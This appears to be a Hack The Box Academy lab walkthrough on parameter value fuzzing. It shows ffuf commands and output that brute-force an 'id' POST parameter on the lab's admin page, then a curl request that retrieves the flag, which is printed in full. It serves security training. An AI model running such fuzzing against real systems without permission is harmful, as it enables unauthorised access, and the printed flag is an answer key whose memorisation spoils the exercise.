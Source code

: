 ```bash
for i in $(seq 1 1000); do echo $i >> ids.txt; done
```

```shell
┌─[us-academy-1]─[10.10.14.32]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ for i in $(seq 1 1000); do echo $i >> ids.txt; done
```

Subsequently, students need to perform value fuzzing on the `id` POST parameter, starting with determining the size of a request having an erroneous value for the `id` parameter:

```shell
ffuf -w ids.txt:FUZZ -u 'http://admin.academy.htb:STMPO/admin/admin.php' -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded'
```

```shell
┌─[us-academy-1]─[10.10.14.32]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ ffuf -w ids.txt:FUZZ -u 'http://admin.academy.htb:31865/admin/admin.php' -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded'

29                      [Status: 200, Size: 768, Words: 219, Lines: 54]
1                       [Status: 200, Size: 768, Words: 219, Lines: 54]
19                      [Status: 200, Size: 768, Words: 219, Lines: 54]
30                      [Status: 200, Size: 768, Words: 219, Lines: 54]
32                      [Status: 200, Size: 768, Words: 219, Lines: 54]
18                      [Status: 200, Size: 768, Words: 219, Lines: 54]
33                      [Status: 200, Size: 768, Words: 219, Lines: 54]
40                      [Status: 200, Size: 768, Words: 219, Lines: 54]
2                       [Status: 200, Size: 768, Words: 219, Lines: 54]
<SNIP>
```

The response size for any erroneous request is 768, therefore, students need to filter it out using the `-fs` flag:

```shell
ffuf -s -w ids.txt:FUZZ -u 'http://admin.academy.htb:STMPO/admin/admin.php' -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs 768
```

```shell
┌─[us-academy-1]─[10.10.14.32]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ ffuf -w ids.txt:FUZZ -u 'http://admin.academy.htb:31865/admin/admin.php' -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs 768

73     		 [Status: 200, Size: 787, Words: 218, Lines: 54]
:: Progress: [1000/1000] :: Job [1/1] :: 942 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```

The valid `id` value is 73, thus, students at last need to use `cURL` to invoke a POST request with the value 73 for the `id` parameter, attaining the flag `HTB{p4r4m373r_fuzz1n6_15_k3y!}`, which is contained within the first entry filtered by `grep`:

```shell
curl -s 'http://admin.academy.htb:STMPO/admin/admin.php' -X POST -d 'id=73' | grep 'HTB'
```
